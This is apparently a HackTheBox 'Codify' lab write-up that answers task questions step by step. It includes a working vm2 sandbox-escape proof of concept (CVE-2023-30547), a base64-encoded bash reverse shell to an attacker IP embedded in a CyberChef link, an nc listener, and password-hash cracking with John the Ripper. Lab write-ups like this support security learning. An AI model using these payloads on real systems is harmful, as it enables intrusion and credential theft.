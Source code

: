 # Codify
---
Task 1: Which is the highest open TCP port on Codify?
- 3000  
```nmap -A -T4 10.10.11.239```

![alt text](../Images/Codify_nmap_results.png)

Task 2: What is the relative path on the web application that offers a form to run JavaScript code?
- /editor  
```bash
1. Go to http://10.10.11.239:3000
2. Click on Try it now
3. This takes you to http://10.10.11.239:3000/editor
```

Task 3: What is the name of the sandboxing library used by the application?
- vm2  

Check the About Us page

Task 4: What is the 2023 CVE ID assigned to a remote code execution vulnerability in vm2 that was patched in version 3.9.17?
- CVE-2023-30547

1. Went to https://cve.mitre.org/cve/search_cve_list.html
2. Searched for vm2

![alt text](../Images/CVE-2023-30547.png)

Task 5: What user is the web application running as?
- svc

1. Found the exploit using ```searchsploit vm2```
``` bash
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               |  Path
------------------------------------------------------------- ---------------------------------
vm2 - sandbox escape                                         | multiple/local/51898.c
------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
2. Found the file doing: ```bash locate multiple/local/51898.c
/usr/share/exploitdb/exploits/multiple/local/51898.c```
```bash
const { VM } = require("vm2");
const vm = new VM();

const command = 'pwd'; // Change to the desired command

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}

try {
    const handler = {
        getPrototypeOf(target) {
            (function stack() {
                new Error().stack;
                stack();
            })();
        }
    };

    const proxiedErr = new Proxy({}, handler);

    throw proxiedErr;
} catch ({ constructor: c }) {
    const childProcess = c.constructor('return process')().mainModule.require('child_process');
    childProcess.execSync('${command}');
}
`;

console.log(vm.run(code));
```
![alt text](../Images/PoC_vm2-escape.png)

Task 6: There is a second NodeJS application on Codify that isn't running. What is the name of the SQLite database file used by this application?

- tickets.db

1. In Linux, web directories are located in directories such as /var/www/
2. I dug around and found SQlite database file under /var/www/contact

![alt text](../Images/Codify_task6.png)

Task 7: What is the joshua user's password on Codify?

1. Found a better PoC at https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244
2. Used https://www.revshells.com/ to create a bash -i reverse shell
3. Used Cyberchef to input my reverse shell and turn it to Base64. https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D')&input=c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMzkvODA4MCAwPiYx
4. Performed ```nc -lvnp 8080``` on kali linux listening for my reverse shell
5. Placed my reverse shell script into PoC script in editor
![HackTheBox-Labs/Images/Codify_task7.png](../Images/Codify_task7.png)
6. Got access through my reverse shell
![alt text](../Images/Codify_task7_NC.png)
7. Found hash using cat /var/www/contact/tickets.db
![alt text](../Images/Codify_task7-hash.png)
8. Created file called hash on Kali Linux and placed hash value in there
9. Ran John the Ripper to crack the hash and obtain the password 
``` john --wordlist=/usr/share/wordlists/rockyou.txt hash```

Task 8: Submit the flag located in the joshua user's home directory.

1. Logged into Joshua with the cracked hash
2. Went to /home/joshua
3. ls and cat user.txt for flag
![alt text](../Images/Codify_task8.png)
